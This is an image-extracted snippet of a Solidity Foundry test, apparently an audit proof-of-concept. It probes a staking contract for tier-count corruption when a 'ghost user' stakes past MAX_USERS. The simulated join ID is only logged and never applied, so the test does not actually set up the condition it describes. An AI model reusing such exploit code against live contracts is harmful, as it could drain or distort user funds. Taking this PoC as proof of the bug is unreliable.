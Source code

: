 ```solidity
        console2.log("Initial staker count:", initialStakerCount);

        // 2. Simulate nextJoinId exceeding MAX_USERS
        console2.log("\n--- Setting nextJoinId beyond MAX_USERS ---");

        // For this POC, we'll simulate what happens when nextJoinId > MAX_USERS
        uint256 simulatedNextJoinId = MAX_USERS + 1;
        console2.log("Simulated nextJoinId:", simulatedNextJoinId);
        console2.log("MAX_USERS:", MAX_USERS);

        // 3. Now let's have the ghost user stake
        console2.log("\n--- Ghost user staking ---");
        vm.prank(ghostUser);
        staking.stake(MIN_STAKE);

        // 4. Check the state after ghost user stakes
        uint256 newStakerCount = staking.stakerCountInTree();
        console2.log("New staker count:", newStakerCount);
        console2.log("Staker count increase:", newStakerCount - initialStakerCount);

        // Verify that stakerCountInTree increased, indicating the ghost user was counted
        assertTrue(
            newStakerCount > initialStakerCount,
            "stakerCountInTree should increase after ghost user stakes"
        );

        // 5. Check ghost user's tier and state
        console2.log("\n--- Checking ghost user's tier and state ---");

        // Get ghost user's info
        (,LayerEdgeStaking.Tier ghostTier,,) = staking.getUserInfo(ghostUser);
        console2.log("Ghost user's tier:", uint256(ghostTier));

        // Get user state
        uint256 actualJoinId;
        bool isActive;
        bool outOfTree;

        // Get relevant fields from user struct
        (uint256 balance, uint256 lastClaimTime, uint256 interestEarned, uint256 totalClaimed,
         uint256 joinId, uint256 lastTimeTierChanged, bool userOutOfTree, bool userIsActive, bool isFirstDepositMoreThanMinStake) = staking.users(ghostUser);

        actualJoinId = joinId;
        isActive = userIsActive;
        outOfTree = userOutOfTree;

        console2.log("Ghost user joinId:", actualJoinId);
        console2.log("Ghost user is active:", isActive);
        console2.log("Ghost user is out of tree:", outOfTree);

        // 6. Demonstrate the corruption of tier boundaries
        console2.log("\n--- Demonstrating tier boundary corruption ---");

        // Get tier counts
        (uint256 tier1Count, uint256 tier2Count, uint256 tier3Count) = staking.getTierCounts();
        console2.log("Tier 1 count:", tier1Count);
        console2.log("Tier 2 count:", tier2Count);
        console2.log("Tier 3 count:", tier3Count);

        // The sum of tier counts should equal stakerCountInTree
        console2.log("Sum of tier counts:", tier1Count + tier2Count + tier3Count);
        console2.log("Staker count in tree:", staking.stakerCountInTree());
```